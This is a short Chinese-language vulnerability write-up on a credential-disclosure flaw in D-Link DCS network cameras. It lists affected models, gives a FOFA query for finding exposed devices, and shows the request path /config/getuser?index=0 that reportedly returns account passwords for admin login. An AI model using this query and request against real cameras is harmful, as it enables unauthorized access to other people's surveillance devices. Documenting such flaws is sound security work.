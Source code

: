# D-Link DCS监控系统getuser存在密码泄露漏洞

# 一、漏洞简介
D-Link DCS是一款监控摄像机，成像色彩为彩色 是一款网络摄像机，该监控存在账号密码信息泄露漏洞，恶意攻击者可通过访问特定的URL可以得到账号密码信息，直接进入利用漏洞得到账户密码直接进入后台。

# 二、影响版本
+ DCS-2530L
+ DCS-2670L
+ DCS-4603
+ DCS-4622
+ DCS-4701E
+ DCS-4703E
+ DCS-4705E
+ DCS-4802E
+ DCS-P703

# 三、资产测绘
+ fofa`app="D_Link-DCS-4622"`
+ 特征

![1708141509981-1360206a-2ef6-4c37-a777-af8adb962b91.png](./img/pO0XCtTI1eANRyj0/1708141509981-1360206a-2ef6-4c37-a777-af8adb962b91-700650.png)

# 四、漏洞复现
```java
/config/getuser?index=0
```

![1708141554778-102e598d-4d56-43d1-baf4-6d1c6c1393cf.png](./img/pO0XCtTI1eANRyj0/1708141554778-102e598d-4d56-43d1-baf4-6d1c6c1393cf-090242.png)

使用获取到的账号密码登录

![1708141620644-665a2497-6af1-405f-b142-b2f83d7ef69c.png](./img/pO0XCtTI1eANRyj0/1708141620644-665a2497-6af1-405f-b142-b2f83d7ef69c-733347.png)



> 更新: 2024-02-29 23:57:12  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/lv9ugvkave8utxf5>